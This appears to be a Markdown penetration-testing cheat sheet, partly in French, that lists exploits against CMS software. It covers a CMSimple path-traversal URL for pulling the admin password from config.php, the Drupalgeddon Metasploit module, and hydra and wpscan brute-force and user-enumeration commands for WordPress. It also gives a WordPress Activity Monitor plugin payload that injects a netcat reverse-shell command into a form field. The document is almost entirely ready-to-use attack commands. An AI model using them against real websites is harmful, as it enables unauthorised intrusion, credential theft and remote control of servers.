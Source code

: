 # CMS

## CMSimple

Service | Exploit | Intent | Comment
:-: |:-|:-|:-
cmsimple 3.0|`http://@ip/?sl=../adm&adm=1&file=config&action=download`|Get admin pass| LFI sur variable sl et extraction du fichier config.php

---
## Drupal

Service | Exploit | Intent | Comment
:-: |:-|:-|:-
Drupal 7|msf> exploit/unix/webapp/drupal_drupalgeddon|Rev Shell User|

---
## Wordpress

Service | Exploit | Intent | Comment
:-: |:-|:-|:-
Wordpress|`$ hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`|Bruteforce|
Wordpress|`$ wpscan --url http://nomDeDomaine/ -U <dicoUser> -P <dicoPassword>`|Bruteforce|Connection avec les credentials sur /nomDeDomaine/wp-admin/admin.php
Wordpress|`$ wpscan --url http://nomDeDomaine/ --enumerate p --enumerate t --enumerate u`|Enum users|
Activity Monitor|`$ searchsploit activity monitor`<br/>Modifier le fichier html (l'exploit) :<br/>`<form action=""http://nomDeDomain/wp-admin...`<br/>`  <input .... value=""google.fr|nc @IP_attaquant port -e /bin/bash"" />`|Rev Shell User| couplé avec un `nc -lvp <port>`

